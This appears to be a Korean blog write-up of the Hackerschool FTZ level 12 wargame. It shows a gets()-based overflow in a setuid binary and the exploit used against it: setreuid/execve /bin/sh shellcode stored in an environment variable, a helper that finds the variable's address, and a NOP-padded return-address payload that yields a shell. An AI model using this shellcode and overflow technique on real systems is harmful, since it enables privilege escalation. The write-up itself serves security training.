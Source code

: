 ```yaml
---
date: '2022-10-02'
before : '2022-10-01'
after : '2022-10-03'
title: '시스템 해킹(10) : 해커스쿨 FTZ 레벨 12'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


### 1. Level 12

접속하면 AttackMe 실행파일이 존재한다. 소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

레벨 11과 다를 것 없는 구조다. 다른 점은 gets(str)을 이용해 입력을 받는다는 사실.
gets()는 정말 위험한 함수니 내가 프로그래밍 할땐 절대 사용하지 않도록 해야겠다...


**<환경변수 등록>**

쉘코드는 4바이트짜리 return 에 들어가기는 너무 길다. 따라서 우린 "환경 변수"" 라는 친구를 만들어서 그 친구의 주소를 파악한 다음, 그 주소를 return 주소로 넘기도록 하겠다.
```
export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 
//환경변수 등록
```
쉘코드는 인터넷에서 카피해오는게 제일 빠르다..
```
int main(){ //get.c
        printf("%p\n", getenv("SHELLCODE"));
        return 0;
}
//쉘코드의 위치를 알려줄 함수 작성
```
c파일을 gcc로 컴파일 했으면 실행해보자. 다음과 같은(유사한) 결과를 얻을 것이다.
```
./get => 0xbffffc8d
```
이제 이 주소를 little endian x90형식으로 변환시키면 된다. 이 경우에는 **\x8d\xfc\xff\xbf** 가 될 것이다. 그럼 이제 이 값을 return주소에 넣어주면 된다.


**<버티컬바 "|" 실행>**

버티컬바 하나는 앞의 명령어 실행 결과를 뒤의 명령어의 입력으로(!) 넘긴다.
물론 먼저 attackme를 실행한 후 268개의 문자를 일일히 타자로 쳐도 되겠지만(...) 너무 귀찮은 작업이니 python -c를 사용하기 위해  cat으로 문장을 입력받은 다음 버티컬 바를 이용해서 이를 매개변수로 넘겨주도록 하자.
```
"\x90"*268+"\x8d\xfc\xff\xbf
 (python -c 'print"\x90"*268+"\x8d\xfc\xff\xbf"'; cat) | ./attackme
```
비밀번호 : have no clue

---
## Source

- 해커스쿨 FTZ
- Me!